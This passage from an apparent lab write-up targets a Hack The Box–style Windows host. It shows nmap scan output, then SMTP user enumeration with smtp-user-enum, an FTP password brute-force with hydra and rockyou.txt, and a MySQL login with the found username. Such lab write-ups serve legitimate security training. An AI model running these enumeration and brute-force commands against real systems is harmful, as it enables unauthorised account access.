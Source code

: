 ```
587/tcp open smtp hMailServer smtpd

| smtp-commands: WIN-EASY, SIZE 20480000, AUTH LOGIN PLAIN, HELP

|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY

3389/tcp open ms-wbt-server Microsoft Terminal Services

|_ssl-date: 2024-04-02T17:43:49+00:00; +10s from scanner time.

| ssl-cert: Subject: commonName=WIN-EASY

| Not valid before: 2024-04-01T17:26:40

|_Not valid after: 2024-10-01T17:26:40

1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [https://nmap.org/cgi-bin/submit.cgi?new-service](https://nmap.org/cgi-bin/submit.cgi?new-service) :

Service Info: Host: WIN-EASY; OS: Windows; CPE: cpe:/o:microsoft:windows
```
{% endcode %}

So the first thing I noticed was that we could use `RCPT` and `VRFY`, but `VRFY` would not work. Therefore i opted for the second option and then i ran smtp-user-enum to enumerate users over SMTP.

{% code fullWidth="true" %}
```
./smtp-user-enum -m RCPT -u users.list inlanefreight.htb 25 -d inlanefreight.htb
Connecting to inlanefreight.htb 25 ...
220 WIN-EASY ESMTP
250 Hello.
250 OK
Start enumerating users with RCPT mode ...
[SUCC] fiona 250 OK
```
{% endcode %}

As we obtained the 'fiana' user, we proceeded to brute-force FTP using this username.

{% code fullWidth="true" %}
```
 hydra -l fiona -P /usr/share/wordlists/rockyou.txt  -t 32 10.129.14.76 ftp -vV
```
{% endcode %}

And we can also utilize the user's credentials to connect to MySQL.

{% code fullWidth="true" %}
```
mysql -h 10.129.14.76 -u fiona -p
```
{% endcode %}
